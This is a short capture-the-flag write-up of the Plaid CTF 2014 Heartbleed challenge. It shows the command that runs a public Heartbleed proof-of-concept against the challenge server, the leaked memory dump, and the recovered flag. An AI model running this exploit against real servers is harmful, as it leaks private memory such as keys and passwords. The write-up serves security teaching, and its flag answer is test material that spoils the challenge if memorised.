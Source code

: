 # Plaid CTF 2014: Heartbleed

**Category:** Misc
**Points:** 10
**Description:**

> Our hearts are bleeding. But instead of bleeding password bytes, they're bleeding flags. Please recover our flags so we don't bleed to death before we can update to 1.0.1-g. Site is up at <https://54.82.147.138:45373/>.
>
> (The flag format is `flag{...}`.)

## Write-up

The challenge name makes it pretty clear that the server is vulnerable to the [the Heartbleed bug](http://heartbleed.com/). Let’s use the famous [Heartbleed proof of concept script](heartbleed.py) and see what kind of data the server leaks:

```bash
$ ./heartbleed.py -p 45373 54.82.147.138
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 837
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
	0000: 02 40 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73  .@.flag{hey_guis
	0010: 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72  e_we_made_a_hear
	0020: 74 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79  tbleed}.flag{hey
	0030: 5F 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61  _guise_we_made_a
	0040: 5F 68 65 61 72 74 62 6C 65 65 64 7D 00 66 6C 61  _heartbleed}.fla
	0050: 67 7B 68 65 79 5F 67 75 69 73 65 5F 77 65 5F 6D  g{hey_guise_we_m
	0060: 61 64 65 5F 61 5F 68 65 61 72 74 62 6C 65 65 64  ade_a_heartbleed
	0070: 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65  }.flag{hey_guise
	0080: 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74  _we_made_a_heart
	0090: 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F  bleed}.flag{hey_
	00a0: 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F  guise_we_made_a_
	…
	3fc0: 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65 5F 77  flag{hey_guise_w
	3fd0: 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74 62 6C  e_made_a_heartbl
	3fe0: 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75  eed}.flag{hey_gu
	3ff0: 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65  ise_we_made_a_he

WARNING: server returned more data than it should; server is vulnerable!
```

The flag is `flag{hey_guise_we_made_a_heartbleed}`.

## Other write-ups

* none yet
